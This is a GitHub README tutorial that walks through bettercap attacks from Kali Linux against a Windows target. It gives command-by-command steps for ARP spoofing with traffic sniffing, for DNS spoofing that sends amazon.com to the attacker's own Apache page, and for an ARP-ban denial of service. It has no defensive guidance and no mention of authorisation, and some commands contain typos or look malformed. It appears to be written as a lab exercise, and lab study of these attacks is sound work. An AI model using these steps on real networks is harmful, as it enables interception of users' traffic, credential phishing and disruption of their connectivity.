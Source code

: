 # Dns-Spoofing-with-bettercap
DNS Spoofing: How to Perform the Attack
To execute DNS spoofing, we will require a Kali Linux machine and a target machine running Windows 7, XP, or 10. Now, let's proceed!
![Anwer Lahami](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/DNS-spoofing.jpg)
### installing bettercap :
Bettercap is written in Go and provides a variety of features for interacting with networks, capturing and analyzing data, and performing various security-related tasks.
```
sudo apt-get update
sudo apt install bettercap
```
### lunching Bettercap: 
we can now lunch it using :
```
sudo bettercap
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/0292bf7c-1b96-424b-924b-2b639f8372fa)

then type ```help``` 

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/b3e30087-72bd-49d1-abf0-317f2ed9c7cb)

we can see net.probe && net.recon are not running , net.probe : this module will send different types of probe packets to each IP in the current subnet in order for the net.recon module to detect them.
to activate it: 
```
net.probe on
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/8ac8972c-03df-48b6-89af-ec0818e467c6)

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3ca31fca-9f19-458a-829f-c5639502fa6e)

### ARP spoof attack:
first let's check the table arp in our target machine

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ac5bf67a-c2c7-42e7-beea-528b65fbcf71)

we can see the adrees of the router and our Kali machine
then let's from our machine check the module ARP.spoof using:
```
help arp.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a34af5aa-93aa-4c3c-96b5-05d5d54b8049)
#### setting the environnement for the attack
Let's execute the following command:
```set arp.spoof.fullduplex true``` 
this means that we will target both the router and the target machine (in our case windowsXP) 
!!! if the router has ARP spoofing protections in place this will make the attack fail (default=false)
```
set arp.spoof.target @ip Target machine
```
NOTE: we can replace @ip target machine with a range of address seperated by a commas or a subnet
to sniff the traffic and redirect to our machine 
```
set net.sniff.local true
```
we can type 
```
help net.sniff to see more infomation
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bette
rcap/assets/124587170/161885a6-e95c-46d8-a072-01eaa1ae5b01)
#### executing the attack
```
arp.spoof on
net.sniff on
```
WARNING: in some case will see this type of message 
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/6e48d7c7-ac49-43c0-9ab6-225d3b00b3c6)
#### solving the issue :
!! first insure that your apache2 serveur is stopped
else:
we need to redirect the packet in and out of our machine so we need to set the machine to forward the packets:
```
iptables -arp -a FORWARD -i (your interface in my case 'eth0') -j ACCEPT
iptables -arp -a FORWARD -o (your interface in my case 'eth0') -j ACCEPT
nano /etc/systcl.conf
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/2dabac88-e54a-482b-9375-f0484e4910c4)

now we can see the raffic of the target machine and let's check it's arp table:
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/89a095a5-e9ce-4d49-88ee-ef6da9712d43)
We can even visualize and see the data sended it in the http mode 
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/a078902b-1da0-4b66-afef-421797d2e6d9)
this attack is not available now since many website disable their http version 
###DNS spoofing
Now we are going to spoof a DNS
let's see the module in bettercap using:

```
hepl dns.spoof
```

![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/536274db-d932-4aaa-ad6f-40b8b0e6ec8e)

what we want to do here is to take a domain and spoof it back to my IP address
first let's start our apache2 server:
```
sudo service apache2 start
```
if we type 127.0.0.1 in ou kali machine we can see the index  page :
! if your asking how change the index.html file just do the following commands:
```
cd /var/www/html
sudo nano index.html
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/ccd2cfe9-60a1-4220-9439-9c57a36f38c9)
then let's go to our terminal:
```
set dns.spoof.domains amazon.com
set dns.spoof.address @ip_kali
dns.spoof on 
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/dd901841-ef02-4349-a973-f4af9b8bab81)
now let's go to the target and type: amazon.com
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/71ac0d35-818a-42b7-a0be-fad53a6163b2)

### DOS using ARP 
```
arp.ban on
```
![image](https://github.com/anouerr357/Dns-Spoofing-with-bettercap/assets/124587170/3c3d4c50-d1a2-45c6-a6d0-16732bb48028)
Start ARP spoofer in ban mode, meaning the target(s) connectivity will not work.

for additionnal informations:
https://www.bettercap.org/modules

